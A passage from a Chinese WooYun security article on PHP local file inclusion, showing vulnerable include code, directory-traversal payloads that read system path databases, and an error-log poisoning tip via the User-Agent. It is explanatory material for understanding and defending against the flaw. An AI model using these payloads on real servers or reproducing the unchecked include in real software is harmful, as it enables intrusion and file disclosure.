 # PHP 文件包含漏洞总结

2014/11/12 12:01 | [Kuuki](http://drops.wooyun.org/author/Kuuki "由 Kuuki 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

PHP 文件包含漏洞的产生原因是在通过 PHP 的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

我们来看下面一段 index.php 代码:

```
if ($_GET['func']) {
   include $_GET['func'];
} else {
   include 'default.php';
}

```

程序的本意可能是当提交 url 为 http://example.com/index.php?func=add.php 时，调用 add.php 里面的样式内容和功能。直接访问 http://example.com/index.php 则会包含默认的 default.php

那么问题来了，如果我们提交 http://example.com/index.php?func=upload/pic/evil.jpg ，且 evil.jpg 是由黑客上传到服务器上的一个图片，在图片的末尾添加了恶意的 php 代码，那么恶意的代码就会被引入当前文件执行。

![](http://drops.wooyun.org/wp-content/uploads/2014/11/file0001_png.jpg)

如果被包含的文件中无有效的 php 代码，则会直接把文件内容输出。

在接下来的内容中会以代码样本作为例子，来给大家介绍各种奇葩猥琐的利用姿势。

## 0x01 普通本地文件包含

* * *

```
<?php include("inc/" . $_GET['file']); ?>

```

*   包含同目录下的文件：
    ?file=.htaccess

*   目录遍历：

?file=../../../../../../../../../var/lib/locate.db ?file=../../../../../../../../../var/lib/mlocate/mlocate.db

（linux 中这两个文件储存着所有文件的路径，需要 root 权限）

*   包含错误日志： ?file=../../../../../../../../../var/log/apache/error.log （试试把 UA 设置为“?>?>”来使 payload 进入日志）
